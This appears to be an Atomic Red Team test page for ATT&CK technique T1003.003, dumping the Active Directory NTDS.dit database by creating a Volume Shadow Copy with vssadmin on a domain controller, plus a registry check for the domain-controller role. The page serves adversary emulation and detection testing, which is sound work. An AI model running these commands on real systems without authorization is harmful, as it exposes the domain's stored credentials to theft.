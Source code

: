```yaml
---
tags: [T1003_003, atomic_test]
filename: "[[T1003.003|T1003.003 - OS Credential Dumping: NTDS]]"
---
```

# T1003.003 - OS Credential Dumping: NTDS

## Atomic Test #1 - Create Volume Shadow Copy with vssadmin
This test is intended to be run on a domain Controller.

The Active Directory database NTDS.dit may be dumped by copying it from a Volume Shadow Copy.

**Supported Platforms:** Windows


**auto_generated_guid:** dcebead7-6c28-4b4b-bf3c-79deb1b1fc7f





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| drive_letter | Drive letter to source VSC (including colon) | string | C:|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
vssadmin.exe create shadow /for=#{drive_letter}
```




#### Dependencies:  Run with `command_prompt`!
##### Description: Target must be a Domain Controller
##### Check Prereq Commands:
```cmd
reg query HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ProductOptions  /v ProductType | findstr LanmanNT
```
##### Get Prereq Commands:
```cmd
echo Sorry, Promoting this machine to a Domain Controller must be done manually
```




<br/>
<br/>

